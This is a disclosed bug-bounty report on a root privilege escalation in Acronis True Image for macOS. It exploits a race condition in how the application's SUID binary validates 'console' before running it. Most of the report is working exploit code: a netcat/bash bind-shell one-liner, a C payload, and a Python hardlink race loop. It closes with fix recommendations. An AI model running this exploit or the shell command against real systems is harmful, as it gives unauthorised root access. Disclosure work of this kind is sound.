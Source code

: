 # Acronis True Image Local Privilege Escalation Due To Race Condition In Application Verification 

## Report Details
- **Report ID**: 1251464
- **URL**: https://hackerone.com/reports/1251464
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-07-05T03:49:58.358Z
- **Disclosed**: 2022-07-28T10:32:00.943Z

## Reporter
- **Username**: vkas-afk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
The Acronis True Image application has a SUID binary "Acronis True Image" that starts another binary "console" in the same directory. The SUID binary does some checks on "console" before it is run to make sure the correct binary is being run. By using a hardlink to the SUID binary we can coerice it to try and load "console" in a chosen directory we can write to. From this point we can exploit that the SUID binary does not lock "console" whilst it checks if it is valid, we setup a environment where we can replace console at will and try to win a race where we replace the "console" binary **after** it has been checked but **before** it has been run. If we win this race we gain code execution as root from an admin account. 

## Steps To Reproduce
first we make the shell command to run 
```bash
echo "mkfifo myfifo;nc -l 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1" > shell 
```
now lets make the c program that will run this shell command naming it test.c
```c
#include <stdlib.h>
int main() 
{
	system("touch pass;bash shell");
	return 0;
}
```
compile the program
```bash
gcc test.c 
```
run the following python program
```python
import os 
import time 

os.link("/Applications/Acronis True Image.app/Contents/MacOS/Acronis True Image", "./run")
os.link("/Applications/Acronis True Image.app/Contents/MacOS/console", "./console")

lag = 0.01 
while True: 
	os.popen("./run")
	time.sleep(lag)
	os.unlink("./console")
	os.link("./a.out", "./console")
	time.sleep(1.0)
	os.unlink("./console")
	os.link("Applications/Acronis True Image.app/Contents/MacOS/console", "./console")
	lag += 0.01 
	if os.path.exists("./pass"):
		exit()
```
connect to the root shell
```bash
nc 127.0.0.1 8080
```
## Recommendations
Any binaries that are checked for validity should be locked so that they can not be replaced during validation. Additionally if possible the application should verify where it is being run from to try and prevent further symlink attacks.

## Impact

Local privilege escalation to root.

## Attachments
No attachments
